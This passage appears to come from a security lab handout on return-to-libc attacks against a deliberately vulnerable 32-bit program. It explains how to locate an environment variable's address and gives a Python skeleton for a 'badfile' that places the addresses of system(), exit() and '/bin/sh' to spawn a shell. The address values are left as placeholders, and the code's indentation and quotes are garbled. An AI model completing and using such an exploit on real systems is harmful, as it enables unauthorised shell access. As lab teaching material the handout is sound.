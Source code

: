 ![](image/return%20to%20libc8.png)

>**Note**: Please note down the `$prtenv` value, i.e., ffffd5e2 (This value might change over time).

Compile the code above into a binary called **prtenv**. If the address randomization is turned off, you will find out that the same address is printed out. When you run the vulnerable program **retlib** inside the same terminal, the address of the environment variable will be the same (see the special note below). You can verify that by putting the code above inside **retlib.c**. However, the length of the program name does make a difference. That’s why we choose 6 characters for the program name **prtenv** to match the length of **retlib**. 

**Note**. You should use the **-m32** flag when compiling the above program, so the binary code prtenv will be for **32-bit** machines, instead of 64-bit ones. The vulnerable program retlib is a **32-bit** binary, so if prtenv is **64-bit**, the address of the environment variable will be different.

### 3.3 Task 3: Launching the Attack

We are ready to create the content of _badfile_. Since the content involves some binary data (e.g., the address of the _libc_ functions), we can use Python to do the construction. We provide a skeleton of the code in the following, with the essential parts left for you to fill out. 

```
#!/usr/bin/env python
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000        # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder=’little’)

Y = 0
system_addr = 0x00000000    # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder=’little’)

Z = 0
exit_addr = 0x00000000      # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder=’little’)


# Save content to a file
with open("badfile", "wb") as f:
f.write(content)
```